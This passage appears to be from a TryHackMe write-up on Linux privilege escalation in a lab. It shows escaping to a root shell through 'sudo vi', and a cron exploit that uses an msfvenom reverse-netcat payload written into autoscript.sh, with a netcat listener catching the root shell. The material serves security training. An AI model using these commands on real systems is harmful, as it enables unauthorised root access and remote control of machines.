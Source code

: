 ### Escaping Vi Editor

1. First, let's exit out of root from our previous task by typing"exit". Then use"su"to swap to user8, with the password"password"

2. Let's use the"sudo -l"command, what does this user require (or not require) to run vi as root?

   After switching to user8 we run `sudo -l` to see what they can run with sudo.

   ![Vi Sudo](https://github.com/Kevinovitz/TryHackMe_Writeups/raw/main/commonlinuxprivesc/Common_Linux_Privesc_Vi_Sudo.png)

   ><details><summary>Click for answer</summary></details>

3. So, all we need to do is open vi as root, by typing"sudo vi"into the terminal.

4. Now, type":!sh"to open a shell!

   ![Vi Shell](https://github.com/Kevinovitz/TryHackMe_Writeups/raw/main/commonlinuxprivesc/Common_Linux_Privesc_Vi_Shell.png)

### Exploiting Crontab

1. First, let's exit out of root from our previous task by typing"exit". Then use"su"to swap to user4, with the password"password"

2. Now, on our host machine- let's create a payload for our cron exploit using msfvenom.

3. What is the flag to specify a payload in msfvenom?

   The can be found in the manual for msfvenom.

   ><details><summary>Click for answer</summary></details>

4. Create a payload using:"msfvenom -p cmd/unix/reverse_netcat lhost=LOCALIP lport=8888 R"

5. What directory is the "autoscript.sh" under?

   This was found during our linenum scan.

   ><details><summary>Click for answer</summary></details>

6. Lets replace the contents of the file with our payload using:"echo [MSFVENOM OUTPUT] > autoscript.sh"

7. After copying the code into autoscript.sh file we wait for cron to execute the file, and start our netcat listener using:"nc -lvnp 8888"and wait for our shell to land!

8. After about 5 minutes, you should have a shell as root land in your netcat listening session! Congratulations!

   We will create our (oneliner) payload with `msfvenom` using `-f raw`. This creates a one-liner we can use in the file.
